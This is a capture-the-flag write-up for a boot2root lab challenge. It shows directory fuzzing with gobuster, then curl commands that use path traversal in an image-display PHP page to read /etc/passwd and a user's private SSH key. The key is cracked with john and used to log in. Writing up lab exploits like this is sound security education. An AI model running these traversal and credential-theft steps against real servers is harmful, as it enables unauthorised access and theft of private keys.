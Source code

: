 # The Projects - User
Author: viipz, rvino
## Description
```
**Category: Boot2Root/Educational** (You can ask for hints if you are stuck)

Are you ready to get an initial foothold on this super duper secure machine? You are looking for a text file called `user.txt` located in the home directory of a user. Spin up an instance and see what all the fuzz is about! 

Brute forcing / Fuzzing is allowed on this challenge.

Click [here](https://ctf.equinor.com/ondemand/) for access to the machine. 

```
## How to solve
First thing is to start fuzzing to figure out what type of page we're looking at: this can be done by checking the index page file type by simply testing /index.php

In this case this page is running on php which is usefull when we bruteforce directories with a tool like gobuster / wfuzz where we can specify what file type to look for.
```
gobuster -w [Your_word_list] -u [webpage] -x [file_type]
```
We find a page for displaying images which can be exploited for a path traversal.
```
curl http//webpage/imagedisplaying.php?i=../../../../etc/passwd
curl http//webpage/imagedisplaying.php?i=../../../../home/tom/.ssh/id_rsa > id_rsa (then delete the html part)
curl http//webpage/imagedisplaying.php?i=../../../../home/tom/user.txt
chmod 600 id_rsa
ssh2john id_rsa
john id_rsa --wordlist=rockyou.txt
ssh tom@IP -i id_rsa
```
And thats how you pwn User :)